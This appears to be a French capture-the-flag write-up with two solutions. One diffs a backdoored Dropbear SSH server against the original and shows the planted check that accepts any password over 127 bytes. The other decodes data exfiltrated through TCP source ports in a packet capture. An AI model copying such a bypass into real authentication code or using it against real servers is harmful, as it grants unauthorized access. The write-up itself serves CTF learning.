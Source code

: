 ## Résolution 

> Dropbear est un serveur et client SSH relativement petit. Il fonctionne sur une variété de plates-formes POSIX. Dropbear est un logiciel open source, distribué sous une licence de style MIT. Dropbear est particulièrement utile pour les systèmes Linux (ou autres Unix) de type "embarqués", tels que les routeurs sans fil.

On cherche a savoir la différence avec la version originale afin de pouvoir exploiter la backdoor.

On extrait la version contenant la backdoor:
```bash
$ tar xvf dropbear-2017.75-backdoored.tar.gz
$ mv dropbear-2017.75{,-backdoored}
```

On télécharge la version originale:
```bash
$ wget https://matt.ucc.asn.au/dropbear/releases/dropbear-2017.75.tar.bz2 
$ tar xvf dropbear-2017.75.tar.bz2
$ diff dropbear-2017.75 dropbear-2017.75-backdoored 
...
diff '--color=auto' dropbear-2017.75/svr-authpasswd.c dropbear-2017.75-backdoored/svr-authpasswd.c
98c98
< 	if (constant_time_strcmp(testcrypt, passwdcrypt) == 0) {
---
> 	if (passwordlen > 0x7F || constant_time_strcmp(testcrypt, passwdcrypt) == 0) {
```

On peut ainsi se connecter en utilisant un mot de passe de longueur strictement supérieur a 127 (0x7F) et récupérer le flag sur le serveur.

<br>
<hr>
<br>

# [Forensic] Exfiltration

## Source de téléchargement

<ul>
  <li><a href="/images/writeups/hsr2020/hacksecu2020.pcap">hacksecu2020.pcap</a></li>
</ul>

## Résolution 

L'exfiltration de données étaient permises via une opération sur les ports sources des paquets réseaux TCP.
On peut automatiser facilement l'opération à l'aide de l'outil `tshark` qui nous permet d'applique un filtre pour séléctionner les paquets dont le port source est supérieur ou égal à 50000, puis de séléctionner spécifiquement le port source tcp de chaque paquet filtré:

```bash
result=""
for port in $(tshark -nr ./hacksecu2020.pcap -Y "tcp.srcport >= 50000" -T fields -e tcp.srcport); do 
  n=$(($port - 50000))
  result=$result$(python -c "print(chr($n))")
  echo $result 
done
```
